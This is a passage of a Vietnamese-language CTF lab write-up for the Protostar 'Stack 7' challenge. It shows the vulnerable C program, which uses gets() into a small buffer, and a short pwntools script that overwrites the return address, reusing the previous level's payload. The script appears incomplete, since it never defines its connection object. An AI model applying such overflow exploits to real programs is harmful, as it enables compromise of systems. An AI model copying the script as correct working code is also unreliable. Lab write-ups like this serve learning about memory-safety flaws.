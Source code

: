 ```
bzzzt (0xbf000000)
```


## Stack 7

LevelUp++!

Thậc là tuyệt vời ! 😆😆😆😆😆 đây là level cuối cùng trong chuỗi chall này rồi! Nên là chiến thôii


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
Bài này không khác gì bài stack 6 cho lắm chỉ xuất hiện thêm hàm *strdup(buffer)* , nên là đi search gg lẹ lẹ ! Hàm [strdup](https://www.geeksforgeeks.org/strdup-strdndup-functions-c/) thực ra không ảnh hưởng gì lớn về việc exploit của mình! Nên là các bạn sẽ tự đọc thêm đi nhé bài này không có gì khó khăn, mình sẽ dùng luôn payload của bài stack 6 nhé !

```
from pwn import* 

BIN = "./stack7"
DEBUG = 1 

ret = 0xbf000000

def exploit():
	payload = b"A"*0x50 + b"B"*0x8 + p64(ret)

	_breakpoint = """
		0x0000000000400699
	"""
	gdb.attach(io,_breakpoint)
	io.sendline(payload)
	io.recv()
	io.interactive()

```